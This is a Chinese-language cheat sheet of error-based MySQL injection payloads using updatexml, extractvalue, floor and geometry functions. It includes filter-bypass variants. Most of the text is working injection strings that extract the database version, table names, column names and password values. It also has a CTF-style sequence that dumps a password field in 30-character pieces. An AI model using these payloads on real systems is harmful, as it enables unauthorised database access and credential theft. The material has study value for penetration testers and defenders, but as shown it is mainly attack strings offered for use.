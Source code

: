 利用报错回显敏感的sql注入
常利用函数：updatexml、floor、exp、extractvalue、join
* floor
* exp
* extractvalue
* updatexml
* name_const
* join
* geometrycollecion
* polygon
* multipoint
* multinestring
* multpolygon
* linesring



AND OR优先级比两边低，导致了会先执行错误语句报错。
在 SQL 中，`AND` 和 `OR` 操作符的优先级比算术运算符（如加法 `+`、乘法 `*`）的优先级要低。这意味着在没有括号明确指定操作顺序的情况下，算术运算会先于逻辑运算执行。



## **updatexml**
原理：
updatexml（）一共有三个参数，第一个是xml内容、第二个参数是update的位置XPATH路径、第三个参数是更新后的内容；这里报错的主要原理是利用第二个参数，当其校验输入的内容是否符合XPATH路径格式的时候，不符合就报错，一般书写在路径位置为特殊符号0x7e，即可使得出现报错。同时第二个参数加入version（）或者database（）等等，因为不满足XPATH格式所以会输出错误，输出错误的时候将sql代码顺便（verson()，database()等）执行了。
```
payload:
//查询当前MySQL版本
'and updatexml(1,concat(0x7e,(select @@version)),1) or '1'='1
'or updatexml(1,concat(0x7e,(select @@version),0x7e),1) or '
//查询当前数据库名
'and updatexml(1,concat(0x7e,(select database())),1) or '1'='1
'and updatexml(1,concat(0x7e,(select database(),0x7e),1) or '1'='1
//查询表名（当前数据库下的）
'and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) or '1'='1
//查询字段名(users表中的)
'and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),1) or '1'='1
'and updatexml(1,concat(0x7e,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'adopt_admin' ),1),1) or '1'='1

基于insert/update下的报错
'or updatexml(1,concat(0x7e,(select @@version),0x7e),1) or '
基于delete下的报错
'or updatexml(1,concat(0x7e,(select @@version),0x7e),1)
```

## **extractvalue**
原理：与updatexml类似，第二个参数路径错误。
```
'and extractvalue(1,concat(0x7e,(select @@version))) #


过滤空格用括号()，过滤=用like

?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(database()))))%23
查出库名geek

?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek'))))%23
查出表名：H4rDsq1



?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1'))))%23
查出有password字段



?username=admin&password=admin%27^extractvalue(1,concat(0x7e,(select(left(password,30))from(geek.H4rDsq1))))%23

extractvalue函数只能30字符，先做，后右。

?username=admin&password=admin%27^extractvalue(1,concat(0x7e,(select(right(password,30))from(geek.H4rDsq1))))%23
```

## **floor**
```
and (select count(*) floor(rand(14)*2) as a from users group by a);

select * from test where id=1 and (select 1 from (select count(*), concat(user(),floor(rand(0)*2)) as x from information_schema.tables group by x)a) 
```
原理：
group进行分组，count进行统计，rand进行创建随机数并且是第十四次，然后乘以2，用floor进行向下取整，然后得到1010，进行分组排序的时候，系统会先生成一个虚拟表，然后是主键和值，通过查询floor(rand(14)\*2)得到结果是1，然后发现自己得虚拟表中没有，插入虚拟表中得主键，然后在插入得时候，表达式会再次执行一遍，实际插入到里面得是零，然后第二次，插入是1，发现表中没有，在插入得时候再次运行，实习插入主键得是0，**两个主键0**，因此报错。

必要条件：
数据库得数据必须得大于2才能执行



^
## **报错注入绕过**
```
1 AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7e,(SELECT database()),0x7e,0x78))s), 8446744073709551610, 8446744073709551610)))



' and ST_Pointfromgeohash(current_user())--+
' || ST_Pointfromgeohash()--+
' || ST_Pointfromgeohash()#


order by GTID_SUBSET((version(),1))
```